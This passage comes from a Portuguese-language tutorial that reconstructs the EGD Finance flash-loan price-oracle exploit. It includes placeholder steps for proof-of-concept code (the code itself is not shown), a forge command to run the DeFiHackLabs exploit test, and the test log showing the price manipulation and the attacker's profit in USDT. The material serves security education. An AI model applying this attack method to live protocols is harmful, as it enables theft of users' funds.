 Passo D. Escreva o código PoC para o ataque

<details><summary>Clique para mostrar o código</summary></details>
<br>



Passo E. Escreva o código PoC para o segundo empréstimo relâmpago usando a exploração

<details><summary>Clique para mostrar o código</summary></details>
<br>

Passo F. Execute o código com `forge test --contracts ./src/test/EGD-Finance.exp.sol -vvv`. Preste atenção na mudança de saldos.

[DeFiHackLabs - EGD-Finance.exp.sol](https://github.com/finn79426/DeFiHackLabs/blob/main/src/test/EGD-Finance.exp.sol)

```
Running 1 test for src/test/EGD-Finance.exp.sol:Attacker
[PASS] testExploit() (gas: 537204)
Logs:
Tx: 0x4a66d01a017158ff38d6a88db98ba78435c606be57ca6df36033db4d9514f9f8
  Attacker Stake 10 USDT to EGD Finance
  -------------------------------- Start Exploit ----------------------------------
  [Start] Attacker USDT Balance: 0.000000000000000000
  [INFO] EGD/USDT Price before price manipulation: 0.008096310933284567
  [INFO] Current earned reward (EGD token): 0.000341874999999972
  Attacker manipulating price oracle of EGD Finance...
  Flashloan[1] : borrow 2,000 USDT from USDT/WBNB LPPool reserve
  Flashloan[1] received
  Flashloan[2] : borrow 99.99999925% USDT of EGD/USDT LPPool reserve
  Flashloan[2] received
  [INFO] EGD/USDT Price after price manipulation: 0.000000000060722331
  Claim all EGD Token reward from EGD Finance contract
  [INFO] Get reward (EGD token): 5630136.300267721935770000
  Flashloan[2] payback success
  Swap the profit...
  Flashloan[1] payback success
  -------------------------------- End Exploit ----------------------------------
  [End] Attacker USDT Balance: 18062.915446991996902763

Test result: ok. 1 passed; 0 failed; finished in 1.66s
```


Observação: EGD-Finance.exp.sol do DeFiHackLabs inclui uma etapa preventiva que é o staking.

Esta explicação não inclui essa etapa, sinta-se à vontade para tentar você mesmo! Attacker Stack Tx: 0x4a66d01a017158ff38d6a88db98ba78435c606be57ca6df36033db4d9514f9f8


#### A terceira parte do compartilhamento terminará aqui, se você deseja aprender mais, confira os links abaixo.

---
### Materiais de aprendizagem


[^1]: Skim() :
[^2]: Chamadas de função internas são invisíveis para o blockchain, pois não criam novas transações ou blocos. Dessa forma, elas não podem ser lidas por outros contratos inteligentes ou aparecer no histórico de transações do blockchain.